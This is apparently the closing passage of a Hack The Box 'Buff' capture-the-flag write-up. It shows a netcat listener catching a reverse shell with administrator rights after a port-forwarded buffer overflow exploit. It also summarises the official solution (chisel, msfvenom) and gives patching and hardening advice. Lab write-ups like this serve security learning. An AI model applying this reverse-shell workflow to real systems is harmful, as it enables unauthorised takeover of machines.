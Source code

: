 And change the payload in the exploit.

when we execute the exploit. Our port forward will send the commands from the exploit straight to the machine we are connected to.

This machine then executes the payload and sends us the reverse shell:

```
root@kali:/home/kali/htb/Buff# nc -nlvp 1338
Listening on 0.0.0.0 1338
Connection received on 10.129.25.107 49812
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator

C:\Windows\system32>

```


## Comparing myself to the official writeup:

They find the Gym management software exploit and get a shell.

They improve the shell with netcat, and then find the CloudMe file in the shaun Downloads folder.

They download the exe and run it on a VM.

They then discover the buffer overflow exploit, and use chisel to port forward and then use msfvenom to generate the payload.

Running the exploit gives the reverse admin shell.


## How to stop this exploit:

Gym management software should be updated to the most recent version to patch the exploit.

The same can be said for CloudMe. There was also a lot of creds lying around, so the system admin should fix that.

Better AV and system security should be implemented. The accounts should not be able to run downloaded files.

